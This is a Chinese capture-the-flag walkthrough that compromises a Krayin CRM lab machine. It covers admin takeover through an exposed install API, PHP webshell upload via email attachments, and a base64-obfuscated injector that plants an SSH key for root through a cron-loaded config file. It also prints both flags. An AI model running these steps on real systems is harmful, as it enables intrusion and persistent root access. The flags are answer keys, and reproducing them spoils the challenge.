









# Krayin2

## 一、信息收集

端口枚举
```
nmap -Pn -sV -p- 192.168.56.124
```

扫描发现：

```
22/tcp  SSH
80/tcp  HTTP Apache/PHP
```

Web 应用为 Krayin CRM。


---

## 二、管理员账号接管

Krayin 安装接口：

```
POST /install/api/admin-config-setup
```

该接口在已安装状态下仍可通过 AJAX 请求访问。

请求头：

```
Content-Type: application/json
Accept: application/json
X-Requested-With: XMLHttpRequest
```

请求体：

```
{
  "admin": "clairis",
  "email": "clairis@qq.com",
  "password": "clairis"
}
```

接口响应：

```
1
```

说明管理员账号修改成功。



使用修改后的账号登录：

```
邮箱：clairis@qq.com
密码：clairis
```

登录地址：

```
http://192.168.56.124/admin/login
```



---

## 三、后台邮件附件任意文件上传

### 漏洞原理

邮件附件处理逻辑会保留客户端提交的原始文件名：

```
$name = $attachment->getClientOriginalName();
$path = 'emails/'.$email->id.'/'.$name;
Storage::put($path, $content);
```

因此上传名为：

```
user.php
```

的文件后，服务器仍会按照 `.php` 文件保存。

同时，Krayin 默认文件系统为：

```
FILESYSTEM_DISK=public
```

文件会保存到公开存储目录，并通过 `/storage/` 路径访问。

---

## 四、查询flag位置

`find.php`文件内容
```
<?php
echo "<pre>";
passthru('find / -type f \( -name "user.txt" -o -name "root.txt" \) 2>/dev/null');
echo "</pre>";
?>
```





访问
```
http://192.168.56.124/storage/emails/4/find.php
```
得到`user.txt`文件位置



## 五、读取 User Flag

`user.php` 文件内容：
```
<?php echo file_get_contents("/home/krayin2/user.txt"); ?>
```

得到：

```
flag{user-264c3c61377a11b4e87719452871b4db}
```



`root.txt` 对 `apache` 不可读，需要提权

---

## 六、提权

1. apache 身份执行
`cmd.php`内容
```
<?php if(isset($_GET["c"])){ system($_GET["c"]." 2>&1"); } ?>
```

上传cmd.php并访问
```
http://192.168.56.124/storage/emails/5/cmd.php?c=id
```



2. 确认注入点可写、定时任务存在
```
curl --get "http://192.168.56.124/storage/emails/5/cmd.php" --data-urlencode "c=ls -la /var/www/krayin/bootstrap/cache/config.php; echo ---; head -5 /usr/local/sbin/krayin-scheduler.sh"
```



3. `root` 的 `cron` 每分钟执行 `/usr/local/sbin/krayin-scheduler.sh`，内容为 `cd /var/www/krayin && php83 artisan schedule:run`；`Laravel` 启动时加载 `bootstrap/cache/config.php`。把` PHP` 片段写到该文件头部，`root` 加载时就会执行。片段用 `posix_geteuid()===0`守卫，`apache` 的普通请求不会触发。
4. Kali 侧生成钥匙并注入公钥
在kali生成新密钥对：
```
ssh-keygen -t ed25519 -f ~/rootk_kali -N ""
```
确认公钥内容（应以 `ssh-ed25519` 开头）：
```
PUB=$(cat ~/rootk_kali.pub); echo "PUB=[$PUB]"
```
用模板生成注入器（`__PUB__` 替换为公钥），并确认文件里真有公钥：
```
echo 'PD9waHAKJHA9Jy92YXIvd3d3L2tyYXlpbi9ib290c3RyYXAvY2FjaGUvY29uZmlnLnBocCc7CiRsPWZpbGUoJHApOwp3aGlsZSgkbCAmJiBzdHJwb3MoJGxbMF0sIjw/cGhwIGlmKGZ1bmN0aW9uX2V4aXN0cygncG9zaXhfZ2V0ZXVpZCcpIik9PT0wKXthcnJheV9zaGlmdCgkbCk7fQokYz1pbXBsb2RlKCcnLCRsKTsKJHg9Ijw/cGhwIGlmKGZ1bmN0aW9uX2V4aXN0cygncG9zaXhfZ2V0ZXVpZCcpJiZwb3NpeF9nZXRldWlkKCk9PT0wKXtAbWtkaXIoJy9yb290Ly5zc2gnLDA3MDAsdHJ1ZSk7QGZpbGVfcHV0X2NvbnRlbnRzKCcvcm9vdC8uc3NoL2F1dGhvcml6ZWRfa2V5cycsXCJfX1BVQl9fXG5cIik7QGNobW9kKCcvcm9vdC8uc3NoJywwNzAwKTtAY2htb2QoJy9yb290Ly5zc2gvYXV0aG9yaXplZF9rZXlzJywwNjAwKTt9ID8+XG4iOwpmaWxlX3B1dF9jb250ZW50cygkcCwkeC4kYyk7CmVjaG8gImluamVjdGVkXG4iOwo=' | base64 -d | sed "s|__PUB__|$PUB|" > /tmp/inj_key.php; grep -c 'ssh-ed25519' /tmp/inj_key.php
```
输出 `1` 后继续。
通过`WebShell`发送注入器
```
B64=$(base64 -w0 /tmp/inj_key.php); curl --get "http://192.168.56.124/storage/emails/5/cmd.php" --data-urlencode "c=echo '$B64' | base64 -d > /tmp/inj.php && /usr/bin/php83 /tmp/inj.php 2>&1"
```
输出 `injected`。再确认公钥确实写进了` config.php` 头部：
```
curl --get "http://192.168.56.124/storage/emails/5/cmd.php" --data-urlencode "c=head -c 400 /var/www/krayin/bootstrap/cache/config.php"
```
4. Kali上`SSH`登录`root`
等一个`cron`周期后从kali连接
```
sleep 70;ssh -i ~/rootk_kali -o StrictHostKeyChecking=no root@192.168.56.124   
```



得到`root flag`
`flag{root-da0436d5da0ca591f0cffe0e6936b64b}`